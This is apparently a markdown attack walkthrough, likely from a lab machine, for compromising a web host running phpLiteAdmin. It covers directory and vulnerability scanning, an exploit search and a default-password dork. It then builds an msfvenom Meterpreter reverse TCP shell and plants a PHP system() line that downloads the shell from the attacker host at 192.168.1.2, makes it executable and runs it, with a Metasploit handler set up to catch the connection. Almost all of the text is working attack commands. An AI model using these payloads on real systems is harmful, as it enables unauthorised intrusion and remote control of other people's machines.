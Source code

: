 ### Scanning
#### Web Object Scanning
```
dirsearch -u http://192.168.1.1 -w /usr/share/dirb/wordlists/common.txt -e php

-u = URL
-w = Wordlists
-e = Extensions
```

#### Web Vulnerabilities Scanning
```
uniscan -u 192.168.1.1 -qweds

-u = URL
-q = Enable Directory checks
-w = Enable File checks
-e = Enable robots.txt and sitemap.xml check
-d = Enable Dynamic checks
-s = Enable Static checks
```

### Exploitation
#### Searching Exploit
```
searchsploit phpliteadmin
cat /opt/searchsploit/exploits/php/webapps/24044.txt
```

#### Google Dorking
```
inurl: phpliteadmin default password
```

#### Creating Meterpreter Shell
```
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf -o shell
mv shell /usr/share/nginx/html/
chmod 777 shell
vim /usr/databases/meterpreter_reverse_tcp_shell.php
```
```
<?php system("cd /tmp; wget http://192.168.1.2/shell; chmod 777 shell; ./shell"); ?>
```

#### Creating Meterpreter Exploit
```
service postgresql start
msfconsole
```
```
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.2
set LPORT 443
exploit
```
